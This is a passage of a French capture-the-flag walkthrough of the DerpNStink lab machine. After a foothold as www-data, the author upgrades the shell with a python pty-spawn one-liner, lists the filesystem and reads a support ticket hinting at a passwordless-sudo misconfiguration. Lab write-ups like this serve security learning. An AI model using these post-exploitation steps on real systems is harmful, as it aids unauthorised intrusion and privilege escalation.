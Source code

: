 ####Encore un tips merci gotmilk :
```console
python -c 'import pty; pty.spawn("/bin/bash")'
```

####Et on obtient un promt complet :
```console
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@DeRPnStiNK:/$ 
```
####Qu'avons nous comme dossier :
```console
www-data@DeRPnStiNK:/$ ls -l
ls -l
total 96
drwxr-xr-x   2 root   root    4096 Nov 11 21:02 bin
drwxr-xr-x   3 root   root    4096 Nov 11 21:02 boot
drwxrwxr-x   2 root   root    4096 Nov 11 21:01 cdrom
drwxr-xr-x  17 root   root    4100 Apr  7 06:49 dev
drwxr-xr-x 135 root   root   12288 Apr  7 04:50 etc
drwxr-xr-x   4 root   root    4096 Nov 12 12:54 home
lrwxrwxrwx   1 root   root      32 Nov 11 21:02 initrd.img -> boot/initrd.img-4.4.0-31-generic
drwxr-xr-x  23 root   root    4096 Nov 11 21:02 lib
drwx------   2 root   root   16384 Nov 11 20:58 lost+found
drwxr-xr-x   2 root   root    4096 Aug  3  2016 media
drwxr-xr-x   2 root   root    4096 Apr 10  2014 mnt
drwxr-xr-x   2 root   root    4096 Aug  3  2016 opt
dr-xr-xr-x 222 root   root       0 Apr  7 04:49 proc
drwx------  14 root   root    4096 Jan  9 12:23 root
drwxr-xr-x  26 root   root     840 Apr  7 05:00 run
drwxr-xr-x   2 root   root   12288 Nov 11 21:08 sbin
drwxr-xr-x   3 root   root    4096 Nov 12 09:02 srv
drwxr-xr-x   2 mrderp mrderp  4096 Nov 12 13:40 support
dr-xr-xr-x  13 root   root       0 Apr  7 14:03 sys
drwxrwxrwt   4 root   root    4096 Apr  7 14:04 tmp
drwxr-xr-x  10 root   root    4096 Aug  3  2016 usr
drwxr-xr-x  14 root   root    4096 Nov 11 21:12 var
lrwxrwxrwx   1 root   root      29 Nov 11 21:02 vmlinuz -> boot/vmlinuz-4.4.0-31-generic
```

####Tiens tiens le dossier "support" m'attire (lol) :
```console
www-data@DeRPnStiNK:/$ ls -l support
ls -l support
total 4
-rw-rw-r-- 1 mrderp mrderp 822 Nov 12 13:38 troubleshooting.txt
```

####Que contient ce fichier :
```console
www-data@DeRPnStiNK:/$ cat support/troubleshooting.txt
cat support/troubleshooting.txt
*******************************************************************
On one particular machine I often need to run sudo commands every now and then. I am fine with entering password on sudo in most of the cases.

However i dont want to specify each command to allow

How can I exclude these commands from password protection to sudo?

********************************************************************



********************************************************************
Thank you for contacting the Client Support team. This message is to confirm that we have resolved and closed your ticket. 
```